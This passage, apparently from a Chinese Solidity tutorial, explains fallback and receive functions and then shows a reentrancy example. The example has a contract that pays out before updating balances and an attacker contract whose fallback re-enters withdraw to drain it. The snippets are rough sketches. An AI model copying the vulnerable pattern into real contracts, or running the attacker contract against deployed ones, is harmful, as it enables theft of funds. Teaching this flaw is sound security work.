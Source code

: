 示例：

```c#
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.6.2 <0.9.0;
contract Test {
  uint public x;
  // msg.value必须为0时，调用不存的函数（msg.data随便填) 都会调用fallback
  // 如果msg.value不为0，会报错，不让调，因为没有加payable。
  fallback() external { x = 1; }
  
  // msg.value不必为0，表示可以接收以太。
  fallback() payable external { x = 1; }
}
```

### 前置知识 - receive和fallback的区别

同：

* 都可虚拟(virtual)，可重载(override)，可修饰。
* 都可以在接收以太后调用。

不同：

* 虽然在功能上都可以接收以太，但语义不同，receive纯粹的接收以太，fallback是调用不存的函数时的回调，也就是msg.data不空。

### 重入示例

```javascript
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.4.21;

contract AMoney {
  mapping(address => uint256) balances;
  function deposit() payable public {
    balances[msg.sender] += msg.value;
  }
  function withdraw(address add, uint amount) public {
    require(balances[add] > amount);
    // 重入点
    add.call.value(amount)();
    balances[add] -= amount;
  }
}

contract Battach {
  address public amoney;
  function start() public payable {
    // 在 Amoney中: balances: { 合约Battach地址 -> 100 }
    amoney.call.value(msg.value)(bytes4(keccak256("deposit()")));
    amoney.call(bytes4(keccak256("withdraw(address,uint256)")), this, msg.value / 2);
  }
  function() external payable {
    if(msg.sender == amoney) {
      amoney.call(bytes4(keccak256("withdraw(address,uint256)")), this, msg.value);
    }
  }
}
```
